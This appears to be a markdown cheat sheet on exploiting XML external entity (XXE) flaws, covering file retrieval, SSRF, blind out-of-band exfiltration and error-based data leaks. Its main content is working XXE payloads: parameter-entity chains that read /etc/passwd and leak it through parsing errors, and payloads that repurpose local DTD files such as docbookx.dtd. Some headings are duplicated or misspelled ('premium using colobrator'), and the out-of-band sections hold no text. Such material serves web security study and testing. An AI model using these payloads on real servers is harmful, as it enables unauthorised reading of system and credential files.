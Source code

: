 ## TYPE

- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.


## Exploiting

- **Exploiting XXE to retrieve files**
- **Exploiting XXE to perform SSRF attacks**
- **Blind XXE vulnerabilities**
    - **premium using colobrator**
    - **premium using colobrator**
    - **Exploiting blind XXE to retrieve data via error messages**
    
    An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve

**code**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;


- 
    - **Exploiting blind XXE by repurposing a local DTD**


            <!DOCTYPE foo [
            <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
            <!ENTITY % custom_entity '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            '>
            %local_dtd;
            ]>

    -  Locating an existing DTD file to repurpose



            <!DOCTYPE foo [
            <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
            %local_dtd;
            ]>
